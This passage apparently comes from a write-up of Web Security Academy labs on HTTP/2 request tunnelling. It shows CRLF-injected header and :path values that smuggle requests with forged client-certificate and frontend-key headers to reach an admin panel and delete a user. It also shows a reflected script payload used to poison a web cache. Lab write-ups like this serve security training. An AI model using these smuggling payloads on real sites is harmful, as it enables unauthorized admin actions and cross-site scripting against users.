 
    Name: foo: bar/r/n
          /r/n
          GET /admin HTTP/1.1/r/n
          Host: 0af100d1040254cc85406e9b006f00af.web-security-academy.net/r/n
          X-SSL-VERIFIED: 1/r/n
          X-SSL-CLIENT-CN: administrator/r/n
          X-FRONTEND-KEY: 4589371175976603/r/n
          /r/n

    Value: x

Notice the response indicating the that the smuggled response length is shorter than the expected length of `GET / HTTP/2`.
Change the path to `/login` for a shorter response. Now we successfully got access to the admin panel. Notice this endpoint to delete user Carlos: `/admin/delete?username=carlos`. Now change the above header to delete Carlos:

    Name: foo: bar/r/n
          /r/n
          GET /admin/delete?username=carlos HTTP/1.1/r/n
          Host: 0af100d1040254cc85406e9b006f00af.web-security-academy.net/r/n
          X-SSL-VERIFIED: 1/r/n
          X-SSL-CLIENT-CN: administrator/r/n
          X-FRONTEND-KEY: 4589371175976603/r/n
          /r/n

    Value: x

### LAB: Web cache poisoning via HTTP/2 request tunnelling
First detect a XSS sink. Send this request:

    GET /resources/images?<script>alert(1)</script> HTTP/2

Notice that the script is appended to the location `Header`. If we can smuggle a request to this path where its response is contained inside a response with `Content-Type: text/html` header, our script will be executed.
Next find a CRLF vulnerability. To the `GET / HTTP/2` request change the request method to `HEAD` and change this header:

    Name: :path
    Value: / HTTP/1.1/r/n
           /r/n
           GET / HTTP/1.1/r/n
           Host: 0a4d0034032fae2a819c98890097009e.web-security-academy.net/r/n

The response is now containing the smuggled response just like the above lab. Now we have to change the path to point to `/resources/images?<script>alert(1)</script>`. This time we got an error indicating that the smuggled response length is much smaller than the expeted length from the `HEAD / HTTP/2` request. To bypass this just simply add random payload to the path value so that it is greater than the expected length:

    Name: :path
    Value: /resources/images?<script>alert(1)</script>aaaaaaa... HTTP/1.1/r/n
           /r/n
           GET / HTTP/1.1/r/n
           Host: 0a4d0034032fae2a819c98890097009e.web-security-academy.net/r/n
